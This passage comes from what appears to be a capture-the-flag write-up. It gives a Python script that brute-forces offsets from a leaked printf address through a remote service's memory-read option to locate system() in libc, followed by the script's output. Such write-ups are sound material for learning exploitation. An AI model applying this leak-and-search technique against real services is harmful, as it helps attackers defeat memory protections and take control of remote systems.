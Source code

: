```python
print data
m = re.search(r'hex: (.*)', data)
if m:
    PRINTF = m.group(1)

OFFSET=63580    # guesstimated from real libc
for i in range(5000):
    payload = ""
    payload += "2\n"
    payload += p(int(PRINTF, 16)-OFFSET-i)
    payload += "\n"

    s.send(payload)

    data = s.recv(200)
    print data
    print i

    if 'ff85' in data: # part of test rdi, rdi
            print "[!] found possible offset for system(): printf-%d" % (int(PRINTF,16)-(int(PRINTF, 16)-OFFSET-i))
            print "[!] system @ %s" % hex(int(PRINTF, 16)-OFFSET-i)
            raw_input()
```

It gave a lot of possible addresses, and once I thought I had `system()` but it was the wrong. I chose a reasonble offset to start from (based on libc 2.19) and ran the script. I stumbled upon the following output:

```
...snip...
85
[!] found possible offset for system(): printf-63665
[!] system @ 0x7f4df0086b2f


Please enter your number: dec: 2803784840145881088
hex: 0x26e90b74ff854800

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

86
[!] found possible offset for system(): printf-63666
[!] system @ 0x7f4df0086b2e
```

At `printf-63665`, libc indeed has the first few bytes of `system()`. It started with a `00` byte, so I decreased the value by one and plugged that value into a script.
